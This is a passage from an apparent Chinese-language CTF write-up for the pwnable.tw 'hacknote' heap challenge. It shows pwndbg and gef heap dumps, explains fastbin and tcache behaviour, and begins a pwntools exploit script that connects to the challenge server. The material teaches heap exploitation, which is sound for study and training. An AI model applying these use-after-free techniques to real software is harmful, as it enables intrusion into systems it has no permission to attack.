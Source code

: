 查看堆的情况

```c
pwndbg> heap
0x9d9b008 PREV_INUSE {
  mchunk_prev_size = 0, 
  mchunk_size = 337, 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
0x9d9b158 FASTBIN {
  mchunk_prev_size = 0, 
  mchunk_size = 17, 
  fd = 0x804862b, 
  bk = 0x9d9b170, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x31
}
0x9d9b168 FASTBIN {
  mchunk_prev_size = 0, 
  mchunk_size = 49, 
  fd = 0x61616161, 
  bk = 0x61616161, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
```

可以发现已经分配了一个大小为17的chunk（即note0的结构体），和一个大小为49的chunk（即note0的content），note1同理

当删除的时候fastbin列表就像我们设想的那样，这里有一个坑，如果是本地调试的话，tcache是libc2.26之后引进的一种新机制，类似于fastbin一样的东西，每条链上最多可以有 7 个 chunk，free的时候当tcache满了才放入fastbin，unsorted bin，malloc的时候优先去tcache找

```c
gef➤  heap bins
───────────────────────────────────────────────────────────[ Fastbins for arena 0xf7fac780 ]───────────────────────────────────────────────────────────
Fastbins[idx=0, size=0x8]  ←  UsedChunk(addr=0x804b040, size=0x10)  ←  UsedChunk(addr=0x804b008, size=0x10) 
Fastbins[idx=1, size=0xc] 0x00
Fastbins[idx=2, size=0x10] 0x00
Fastbins[idx=3, size=0x14]  ←  UsedChunk(addr=0x804b050, size=0x28)  ←  UsedChunk(addr=0x804b018, size=0x28) 
Fastbins[idx=4, size=0x18] 0x00
Fastbins[idx=5, size=0x1c] 0x00
Fastbins[idx=6, size=0x20] 0x00
```

最终的EXP

```python
from pwn import *
#sh=process('./hacknote')
sh=remote('chall.pwnable.tw',10102)
elf=ELF('./hacknote')
libc=ELF('./libc_32.so.6')
#libc=ELF('/lib/i386-linux-gnu/libc.so.6')

def addnote(size,content):
    sh.recvuntil('Your choice :')
    sh.sendline('1')
    sh.recvuntil('Note size :')
    sh.sendline(str(size))
    sh.recvuntil('Content :')
    sh.send(content)
```